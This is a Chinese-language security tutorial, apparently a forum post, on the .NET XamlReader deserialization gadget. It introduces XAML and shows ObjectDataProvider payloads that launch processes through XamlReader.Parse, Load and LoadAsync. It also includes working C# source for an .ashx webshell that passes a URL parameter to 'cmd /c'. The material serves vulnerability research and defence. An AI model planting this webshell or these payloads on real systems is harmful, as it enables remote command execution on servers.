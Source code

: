 0X01 XamlReader背景
=================

.NET反序列化漏洞 XmlSerializer核心Gadget：**XamlReader**，封装于WPF核心程序集之一PresentationFramework.dll，处于System.Windows.Markup命名空间下，提供了XamlReader和XamlWriter两个公开类，XamlReader类提供的底层Load方法可解析XAML字符流数据实现创建的.NET对象实例，还提供了上层封装方法XamlReader.Parse用于直接解析XAML字符串，XmlSerializer反序列化链路就是基于此方法达成命令执行。既然脱离不了XAML，那么就跟随笔者初步认识一下XAML，学习相关的基本知识。

0X02 XAML入门
===========

WPF是用于替代Windows Form来创建Windows客户端的应用程序，和Web项目一样遵从前端布局和后端代码实现分离的原则，Web项目前端通常是HTML，而XAML是用作WPF项目前端界面开发，XAML的全称是 **Extensible Application Markup Language** 基于通用XML语法用于实例化 .NET对象的标记语言。XAML文档中的每个元素都映射为.NET类的一个实例，如根元素\\&lt;Window&gt;表示WPF创建Window对象，另外根元素还有\\&lt;Application&gt;、\\&lt;Page&gt;、\\&lt;UserControl&gt;，事实上**XAML在编译时也会编成C#类**，所以界面对应的.cs文件内的后台代码内要声明 partial 关键字，从而达到在编译的时候UI界面和运行逻辑代码合在一起的状态。如下最基本的XAML代码

```php
<Window x:Class="WpfApplication1.MainWindow"
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:sys="clr-namespace:System;assembly=mscorlib"
        Title="MainWindow" Height="300" Width="300">
    <ListBox>
        <ListBoxItem>
            <sys:String>欢迎关注dotNet安全矩阵</sys:String>
        </ListBoxItem>
    </ListBox>
</Window>
```

上述包含Window元素以及Grid元素，Window元素代表整个窗口，Grid 可以放置所有的控件。总体结构其实是一个窗体对象内嵌套一个Grid对象。x:Class 代表后端的命名空间和类名，这样的好处在于将WPF里的前端XAML和后端实现代码分开维护，xmlns全拼是：XML namespace，即XML命令空间，xmlns后面可以跟一个可选映射前缀 x，两者之间用冒号分割，另外还声明了两个 xmlns 名称空间，如下表

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-618c015a56b25ac3e9afd40b5a30d6be3b7a8a9b.png)

上面列表的网址分别是什么意思呢？这里是XAML解析器的硬性约定，<http://schemas.microsoft.com/winfx/2006/xaml/presentation> 表示引入WPF核心程序集 PresentationFramework，例如常见的 System.Windows.Data 命名空间，<http://schemas.microsoft.com/winfx/2006/xaml> 表示引入另外核心程序集 System.Xaml，例如常用的 Windows.Markup, 反编译后可见 \[assembly: XmlnDefinition("[http://schemas.microsoft.com/winfx/2006/xaml","System.Windows.Markup](http://schemas.microsoft.com/winfx/2006/xaml)")\] 如下图

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-8ef819d6529b191861d61dd9107d1a35ae292dd1.png)

另外还有xmlns:sys="clr-namespace:System;assembly=mscorlib" 表示将 sys 前缀 映射到.NET基类库System.String名称空间，后续用&lt;sys:String&gt;获取字符串类型，类似若想引入其他.NET程序集支持的基类，参考如下语法 xmlns:Prefix="clr-namespace:Namespace;assembly=AssemblyName"，例如反序列化攻击载荷常用的Diagnostics.Process类所在的程序集： xmlns:c="clr-namespace:System.Diagnostics;assembly=system"

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-1c7514d408ebe0b7861679155582d6bab05c62e9.png)

0X03 x:名称指令
===========

笔者创建的项目名ObjectDataProvider有一定迷惑性，这里说明下和反序列化用到的ObjectDataProvider类毫无关联，下表是常见的几种 x: 空间指令含义

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-451c43cd26f170bd9211df01dc6cc92770e57442.png)

x:Class 前面已说过不再赘述，而 x:Key 表示检索资源文件中所需元素的键名，x:Type 表示CLR提供的数据类型，在XAML里可以认为是引用某个命名空间下的类，x:Static 引用后端类里定义的静态字段，x:Code 可在XAML里执行C#代码弹出计算器，例如在窗体Loaded事件指定触发的方法名为: Window\_Loaded

```php
<x:Code>
        <![CDATA[
        private void Window_Loaded(object sender, RoutedEventArgs e)
        {
            System.Diagnostics.Process.Start("calc");
        }
        ]]>
</x:Code>
```

借用下图笔者把很多概念都画到了图里面，希望帮助读者有更加直观的了解，下图中 x:Type 简单的理解就是在XAML中想使用某种数据类型时就得用它，比如从自定义的命名空间xmlns:process里调用Process类，另外 xmlns:local="clr-namespace:ObjectDataProvider" 将本地项目空间名ObjectDataProvider 映射到前缀 xmlns:local

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-7ead6b81cb386f52fa9eda802ebd6f9439d90677.png)

0X04 XamlReader.Parse执行命令
=========================

XamlReader类提供的底层Load方法可解析XAML字符流数据实现创建的.NET对象实例，还提供了封装方法XamlReader.Parse用于直接解析XAML字符串，ysoserial在XmlSerializer反序列化链中使用XamlReader.Parse解析XAML字符串并返回新对象， 转到定义可见有2个方法重载，[官方文档](https://docs.microsoft.com/en-us/dotnet/api/system.windows.markup.xamlreader.parse?view=windowsdesktop-6.0)有如下注明

> Reads the XAML input in the specified text string and returns an object that corresponds to the root of the specified markup.

查看源码可清晰得知 Parse方法内部由XamlReader.Load载入Stream流实现的，那自然Load方法也是需要关注的风险入口点

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-efcc6277e38f627271382b57bca40e7d338590c3.png)

笔者创建测试用例存储于Dictionary2.xaml 如下代码，ObjectType="{x:Type TypeName=local:Process } 可省略TypeName，另外资源检索键名ResourceKey也可以省略，Source={StaticResource ResourceKey=obj}

```php
<Window 
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:d="http://schemas.microsoft.com/expression/blend/2008"
        xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006"
        mc:Ignorable="d"
        xmlns:local ="clr-namespace:System.Diagnostics;assembly=System"
        Title="MainWindow" Height="450" Width="800">
    <Window.Resources>
        <ObjectDataProvider x:Key="obj" ObjectType="{x:Type local:Process }" MethodName="Start">
            <ObjectDataProvider.MethodParameters>"winver"</ObjectDataProvider.MethodParameters>
        </ObjectDataProvider>
    </Window.Resources>
    <Grid DataContext="{Binding Source={StaticResource obj}}">
        <Button Content="Button" HorizontalAlignment="Left" Margin="300.085,187.924,0,0" VerticalAlignment="Top" Width="139.599" Height="45.517"/>
    </Grid>
</Window>
```

```php
string xml = File.ReadAllText("../../Dictionary2.xaml");
XamlReader.Parse(xml);
```

上述代码运行后跟踪调用栈，发现调用了多个Load方法，注意到调用了WpfXamlLoader类的Load方法，发现是一个内部实现的类，不能直接在外部所用，只能通过XamlReader.Loader方法去实现调用

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-9139c9f0698c6035eef87714a44acceec55a990d.png)

0X05 XamlReader.LoadAsync执行命令
=============================

XamlReader类提供了3种Load不同参数的重载方法，另外还提供了LoadAsync异步方法，用于在大文件数据传输不影响程序主线程，可直接载入流转换为对象，调用和第4小节类似不再赘述，如下代码

```php
//Test:Load
string xml = File.ReadAllText("../../Dictionary2.xaml");
MemoryStream ms = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader.Load(ms);

//Test:LoadAsync
MemoryStream ms0 = new MemoryStream(System.Text.Encoding.Default.GetBytes(xml));
XamlReader xamlReader = new XamlReader();
xamlReader.LoadAsync(ms0);
```

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-0c93b3d9e2a400709bce186d1795bfd4fc08e4a3.png)

0X06 编写WebShell
===============

程序内部采用Base64编码和解码的解析方式运行，这样的好处在于对URL特殊字符串的处置，启动Process类调用cmd.exe/c winver.exe 执行命令，核心代码如下

```php
public static void CodeInject(string input)
    {
        string ExecCode = EncodeBase64("utf-8", input);
        StringBuilder strXMAL = new StringBuilder("<ResourceDictionary ");
        strXMAL.Append("xmlns=\"http://schemas.microsoft.com/winfx/2006/xaml/presentation\" ");
        strXMAL.Append("xmlns:x=\"http://schemas.microsoft.com/winfx/2006/xaml\" ");
        strXMAL.Append("xmlns:b=\"clr-namespace:System;assembly=mscorlib\" ");
        strXMAL.Append("xmlns:pro =\"clr-namespace:System.Diagnostics;assembly=System\">");
        strXMAL.Append("<ObjectDataProvider x:Key=\"obj\" ObjectType=\"{x:Type pro:Process}\" MethodName=\"Start\">");
        strXMAL.Append("<ObjectDataProvider.MethodParameters>");
        strXMAL.Append("<b:String>cmd</b:String>");
        strXMAL.Append("<b:String>/c "+ DecodeBase64("utf-8",ExecCode) +"</b:String>");
        strXMAL.Append("</ObjectDataProvider.MethodParameters>");
        strXMAL.Append("</ObjectDataProvider>");
        strXMAL.Append("</ResourceDictionary>");
        XamlReader.Parse(strXMAL.ToString());
    }
```

笔者创建的是ashx扩展名的文件，访问 <http://localhost:52188/XamlReaderofParseSpy.ashx?input=winver>

![](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-5a581d21c498a219b89f578f277bbb4acc2fc9ec.png)

0X07 结语
=======

有关XamlReader类多个命令执行的方法希望未来不会被恶意滥用，好啦本文就介绍到此，文章涉及的WebShell已打包到[Github](https://github.com/Ivan1ee/NET-Command)或关注公众号：dotNet安全矩阵，下期会继续分享.NET执行命令第2课，请大伙继续关注和支持！